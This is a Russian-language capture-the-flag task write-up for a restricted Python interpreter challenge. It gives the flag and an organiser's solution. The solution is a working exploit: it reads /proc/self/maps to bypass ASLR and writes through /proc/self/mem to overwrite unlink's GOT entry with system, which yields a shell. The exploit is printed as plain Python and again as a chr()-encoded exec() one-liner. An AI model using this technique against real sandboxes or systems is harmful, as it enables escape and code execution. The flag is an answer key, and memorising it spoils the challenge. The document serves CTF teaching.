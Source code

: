 # Название: Bare Minimal Python
### ВЫДАТЬ УЧАСТНИКАМ sources.zip
### Флаг: **CTF{PyTh0N_1s_s0_1nt3r3st1ng}**
### Описание
САМЫЙ ПЕРЕДОВОЙ ПИТОН ИНТЕРПРЕТАТОР! САМАЯ БЫСТРАЯ СКОРОСТЬ ВЫПОЛНЕНИЯ! САМАЯ НАДЁЖНАЯ ЗАЩИТА (а вот тут следовало бы выяснить поподробнее)
#### Примечание 1: Для получения флага вам нужно запустить бинарник `/give_me_flag`. Реверсить и всячески исследовать его не надо, это простая "читалка" единственного файла с флагом, на котором стоит SUID бит.
#### Примечание 2: В Dockerfile зафиксирована версия базового образа через хеш sha256 (`ubuntu@sha256:...`). Это гарантирует возможность получить такую же среду, как на нашем сервере.
#### Примечание 3: xinetd - служебный файл, необходимый для развертывания на сервере. В нём нет уязвимостей.

### Хинт: got table hooking
### Решение
Был изменён файл posixmodule.c, а также удалены все модули, кроме encodings, т.к. без него Python запускаться отказался.  
Также "заблокированы" (не вносятся в итоговую сборку, т.к. не присутствуют в файле `posix_methods`) все функции из модуля `os`, кроме:
```c
// I EVEN DISABLED THOSE SHADY METHODS
// ONLY BARE MINIMUM REMAINS
static PyMethodDef posix_methods[] = {

    OS_LISTDIR_METHODDEF
    OS_STAT_METHODDEF
    OS_FSPATH_METHODDEF
    OS_MKDIR_METHODDEF
    OS_OPEN_METHODDEF
    OS_CLOSE_METHODDEF
    OS_REPLACE_METHODDEF
    OS_SCANDIR_METHODDEF
    OS_UNLINK_METHODDEF
    OS_RMDIR_METHODDEF
    OS_LSTAT_METHODDEF
    OS_GETCWD_METHODDEF
    {NULL,              NULL}            /* Sentinel */
};
```
Также по всем методам, позволяющим запускать процессы, расставлены return-ы в самом начале с комментариями вида "так просто не получится" (но это не играет никакого значения, т.к. данные методы запустить не удастся из-за отсутствия в итоговой сборке).
```
static PyObject *
os_execve_impl(PyObject *module, path_t *path, PyObject *argv, PyObject *env)
/*[clinic end generated code: output=ff9fa8e4da8bde58 input=626804fa092606d9]*/
{
    return 0xCAFE; // no way bro
```
Негусто, но можно переписать GOT таблицу, тем самым подменив функцию из libc на нужную (python будет "думать", что вызывается напр. ф-ция unlink, а по факту вызовется system)
```python
m=open('/proc/self/maps','r') # to bypass ASLR
map=m.read().splitlines(keepends=False)
m.close()
for st in map:
    if '/usr/lib/x86_64-linux-gnu/libc.so.6' in st: # first libc str
        RES = st
        break

BASE_LIBC = int(RES.split('-')[0], 16) # libc base
ADDR_SYSTEM = 0x7ff997dedd60 - 0x7ff997d9d000 + BASE_LIBC

BASE_GOT = int(map[0].split('-')[0], 16) # SYSTEM LIBC
ADDR_GOT = 0x5578ea82ca50 - 0x5578ea397000 + BASE_GOT

print('got(unlink):', hex(ADDR_GOT), 'system:', hex(ADDR_SYSTEM))

import os
f = open('/proc/self/mem','wb')
f.seek(ADDR_GOT) # seek to chdir
f.write((ADDR_SYSTEM).to_bytes(8,'little')) # mock unlink with system libc func
f.close()
os.unlink("/bin/sh") # fake unlink (now points to system)
```


Однострочник для избежания проблем со вставкой табуляции:
```
exec(''.join([chr(q) for q in [109,61,111,112,101,110,40,39,47,112,114,111,99,47,115,101,108,102,47,109,97,112,115,39,44,39,114,39,41,32,35,32,116,111,32,98,121,112,97,115,115,32,65,83,76,82,10,109,97,112,61,109,46,114,101,97,100,40,41,46,115,112,108,105,116,108,105,110,101,115,40,107,101,101,112,101,110,100,115,61,70,97,108,115,101,41,10,109,46,99,108,111,115,101,40,41,10,102,111,114,32,115,116,32,105,110,32,109,97,112,58,10,32,32,32,32,105,102,32,39,47,117,115,114,47,108,105,98,47,120,56,54,95,54,52,45,108,105,110,117,120,45,103,110,117,47,108,105,98,99,46,115,111,46,54,39,32,105,110,32,115,116,58,32,35,32,102,105,114,115,116,32,108,105,98,99,32,115,116,114,10,32,32,32,32,32,32,32,32,82,69,83,32,61,32,115,116,10,32,32,32,32,32,32,32,32,98,114,101,97,107,10,10,66,65,83,69,95,76,73,66,67,32,61,32,105,110,116,40,82,69,83,46,115,112,108,105,116,40,39,45,39,41,91,48,93,44,32,49,54,41,32,35,32,108,105,98,99,32,98,97,115,101,10,65,68,68,82,95,83,89,83,84,69,77,32,61,32,48,120,55,102,102,57,57,55,100,101,100,100,54,48,32,45,32,48,120,55,102,102,57,57,55,100,57,100,48,48,48,32,43,32,66,65,83,69,95,76,73,66,67,10,10,66,65,83,69,95,71,79,84,32,61,32,105,110,116,40,109,97,112,91,48,93,46,115,112,108,105,116,40,39,45,39,41,91,48,93,44,32,49,54,41,32,35,32,83,89,83,84,69,77,32,76,73,66,67,10,65,68,68,82,95,71,79,84,32,61,32,48,120,53,53,55,56,101,97,56,50,99,97,53,48,32,45,32,48,120,53,53,55,56,101,97,51,57,55,48,48,48,32,43,32,66,65,83,69,95,71,79,84,10,10,112,114,105,110,116,40,39,103,111,116,40,117,110,108,105,110,107,41,58,39,44,32,104,101,120,40,65,68,68,82,95,71,79,84,41,44,32,39,115,121,115,116,101,109,58,39,44,32,104,101,120,40,65,68,68,82,95,83,89,83,84,69,77,41,41,10,10,105,109,112,111,114,116,32,111,115,10,102,32,61,32,111,112,101,110,40,39,47,112,114,111,99,47,115,101,108,102,47,109,101,109,39,44,39,119,98,39,41,10,102,46,115,101,101,107,40,65,68,68,82,95,71,79,84,41,32,35,32,115,101,101,107,32,116,111,32,99,104,100,105,114,10,102,46,119,114,105,116,101,40,40,65,68,68,82,95,83,89,83,84,69,77,41,46,116,111,95,98,121,116,101,115,40,56,44,39,108,105,116,116,108,101,39,41,41,32,35,32,109,111,99,107,32,117,110,108,105,110,107,32,119,105,116,104,32,115,121,115,116,101,109,32,108,105,98,99,32,102,117,110,99,10,102,46,99,108,111,115,101,40,41,10,111,115,46,117,110,108,105,110,107,40,34,47,98,105,110,47,115,104,34,41,32,35,32,102,97,107,101,32,117,110,108,105,110,107,32,40,110,111,119,32,112,111,105,110,116,115,32,116,111,32,115,121,115,116,101,109,41]]))
```
